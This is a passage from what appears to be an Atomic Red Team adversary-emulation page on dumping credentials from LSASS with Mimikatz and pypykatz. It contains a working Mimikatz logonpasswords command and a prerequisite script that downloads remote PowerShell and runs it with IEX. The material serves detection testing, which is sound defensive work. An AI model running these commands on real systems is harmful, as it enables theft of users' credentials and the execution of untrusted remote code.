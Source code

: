 
#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
"#{mimikatz_exe}" "sekurlsa::minidump #{input_file}" "sekurlsa::logonpasswords full" exit
```




#### Dependencies:  Run with `powershell`!
##### Description: Mimikatz must exist on disk at specified location (#{mimikatz_exe})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{mimikatz_exe}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/Public/Invoke-FetchFromZip.ps1" -UseBasicParsing) 
$releases = "https://api.github.com/repos/gentilkiwi/mimikatz/releases"
$zipUrl = (Invoke-WebRequest $releases | ConvertFrom-Json)[0].assets.browser_download_url | where-object { $_.endswith(".zip") }
$basePath = Split-Path "#{mimikatz_exe}" | Split-Path
Invoke-FetchFromZip $zipUrl "x64/mimikatz.exe" $basePath
```
##### Description: Lsass dump must exist at specified location (#{input_file})
##### Check Prereq Commands:
```powershell
cmd /c "if not exist #{input_file} (exit /b 1)"
```
##### Get Prereq Commands:
```powershell
Write-Host "Create the lsass dump manually using the steps in the previous test (Dump LSASS.exe Memory using Windows Task Manager)"
```




<br/>
<br/>

## Atomic Test #7 - LSASS read with pypykatz
Parses secrets hidden in the LSASS process with python. Similar to mimikatz's sekurlsa::

Python 3 must be installed, use the get_prereq_command's to meet the prerequisites for this test.

Successful execution of this test will display multiple usernames and passwords/hashes to the screen.
